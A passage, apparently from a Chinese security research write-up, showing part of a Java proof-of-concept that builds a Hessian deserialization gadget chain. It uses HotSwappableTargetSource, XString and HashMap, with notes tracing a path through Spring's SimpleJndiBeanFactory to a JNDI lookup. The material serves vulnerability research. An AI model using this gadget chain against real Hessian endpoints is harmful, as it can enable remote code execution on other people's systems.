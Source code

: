 ```bash
        HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(new XString("1"));
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(new XString("a"));
        HashMap hashMap = new HashMap();
        hashMap.put(hotSwappableTargetSource, "1");
        hashMap.put(hotSwappableTargetSource1, "2");
        setFieldValue(hotSwappableTargetSource,"target",Partially);
        String result=Hessian_serialize(hashMap);
        Hessian_unserialize(result);
    }
```

简单分析：

首先在`SimpleJndiBeanFactory#doGetSingleton`中存在`lookup`接口，在同一个类中`SimpleJndiBeanFactory#getType()`可以调用到`doGetSingleton`

[![](assets/1706145875-39332659d8b0b3f521815ccc4d4d6f4b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122222705-5146f956-b932-1.png)

`BeanFactoryAspectInstanceFactory#getOrder()`中，存在着可控`beanFactory和name`能够调用`getType`

[![](assets/1706145875-3ae8306089f6ca0630e298231ff19486.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122222716-576cce28-b932-1.png)
